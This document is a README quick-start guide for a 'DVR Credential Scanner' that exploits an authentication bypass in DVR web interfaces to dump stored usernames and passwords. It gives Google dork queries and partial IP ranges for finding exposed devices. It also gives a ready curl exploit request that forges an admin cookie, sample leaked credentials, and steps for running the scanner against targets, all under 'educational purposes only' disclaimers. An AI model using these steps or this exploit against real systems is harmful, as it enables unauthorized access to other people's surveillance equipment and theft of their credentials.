 # Quick Start Guide: DVR Credential Scanner

This guide will help you get started with the DVR Credential Scanner tool quickly.

## Step 1: Clone the Repository

Clone this repository to your local machine:

```bash
git clone https://github.com/yourusername/DVR_Credential_Scanner.git
```

## Step 2: Install Python

Make sure you have Python 3.6 or higher installed on your system.

To check your Python version, run:
```bash
python --version
```

If Python is not installed, download and install it from [python.org](https://www.python.org/downloads/).

## Step 3: Install Required Dependencies

Navigate to the project directory:
```bash
cd DVR_Credential_Scanner
```

Install the required packages:
```bash
pip install -r requirements.txt
```

## Step 4: Finding DVR Systems to Test

For educational purposes only, here are ways to find potentially vulnerable DVR systems:

### Using Google Search (Google Dorks)

Enter these search queries in Google:
```
intitle:"DVR LOGIN" -com
intitle:"DVR Login" -com
intitle:"XVR Login" -com
intitle:"MDVR Login" -com
intitle:"HVR Login" -com
```

Examples of IP addresses you might find:
- 91.201.122.x (with various ports like :14)
- 59.26.65.x (often on port :69)
- 47.113.219.x (might use port :226)

⚠️ **IMPORTANT**: Only test systems that you own or have explicit permission to test. Unauthorized testing is illegal.

## Step 5: Run the Tool

### Interactive Mode (Recommended)

Simply run the script without any arguments:
```bash
python dvr_scanner.py
```

You will be prompted to:
1. Enter the target host (IP address or hostname)
2. Enter the target port (press Enter to use the default port 80)
3. After scanning, you'll be asked if you want to scan another target

### Command-line Mode

Alternatively, you can specify the target directly:
```bash
python dvr_scanner.py --host [TARGET_IP] --port [TARGET_PORT]
```

Example:
```bash
python dvr_scanner.py --host 192.168.1.100 --port 80
```

### Manual Testing with curl

You can also manually test for the vulnerability using curl:

```bash
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

Example of a successful response:
```json
{"result":0,"list":[{"uid":"admin","pwd":"Op1234567#","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
```

If you don't receive a JSON response with credentials, the system is likely not vulnerable.

## Step 6: Understand the Results

If the target DVR is vulnerable, you will see output that looks like this:

```
 [+] DVR URL:		192.168.1.100:80
 [+] Total Users:	1

╭──────────────────────┬──────────────────────┬──────────────────────╮
│             Username │             Password │              Role ID │
├──────────────────────┼──────────────────────┼──────────────────────┤
│                admin │           password123 │                    1 │
╰──────────────────────┴──────────────────────┴──────────────────────╯
```

This shows the username, password, and role ID for each user account on the DVR system.

## ⚠️ Important Note

This tool is for **EDUCATIONAL PURPOSES ONLY**. Using this tool against systems without explicit permission is illegal. Only use this tool on systems you own or have permission to test.

## Troubleshooting

1. **Connection Timeout**:
   - Verify the IP address and port are correct
   - Check if the target system is online
   - Make sure you can reach the target from your network

2. **Invalid JSON Response**:
   - The target system may not be vulnerable to this exploit
   - The target might be using an updated firmware that fixed the vulnerability

3. **Permission Denied Errors**:
   - Try running the script with administrator privileges

For more detailed information, refer to the README.md file. 